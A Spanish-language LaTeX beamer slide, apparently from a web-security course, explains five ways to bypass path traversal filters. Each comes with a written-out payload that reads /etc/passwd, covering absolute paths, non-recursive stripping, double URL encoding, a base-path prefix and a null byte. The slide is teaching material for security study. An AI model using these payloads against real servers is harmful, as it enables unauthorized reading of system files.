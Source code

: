 \documentclass[aspectratio=169,10pt]{beamer}
\begin{document}
\begin{frame}[allowframebreaks]{Path Traversal --- bypass de filtros}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item 1) Secuencias ../ bloqueadas $\rightarrow$ ruta absoluta
  \item ?filename=/etc/passwd
  \item Cuando el filtro solo elimina ../ pero acepta rutas absolutas.
  \item 2) Stripping NO recursivo de ../
  \item ....//....//....//etc/passwd
  \item El filtro quita ../ una sola vez; al eliminar el interior, ....// vuelve a formar ../.
  \item 3) Doble codificación en URL
  \item ..\%252f..\%252f..\%252fetc/passwd
  \item \%252f $\rightarrow$ \%2f $\rightarrow$ / tras dos decodificaciones (idem \%252e = .).
  \item 4) Validación del inicio de la ruta
  \item /var/www/images/../../../etc/passwd
  \item Si se exige empezar por una base concreta, se añade y luego se sube con ../.
  \item 5) Null byte + validación de extensión
  \item ../../../etc/passwd\%00.png
  \item El \%00 corta la cadena; el .png supera la comprobación de extensión (PHP \textless{} 5.3.4).
  \item Técnicas del curso hack4u.io $\cdot$ cf. PortSwigger Web Security Academy
  \end{itemize}
\end{frame}
\end{document}
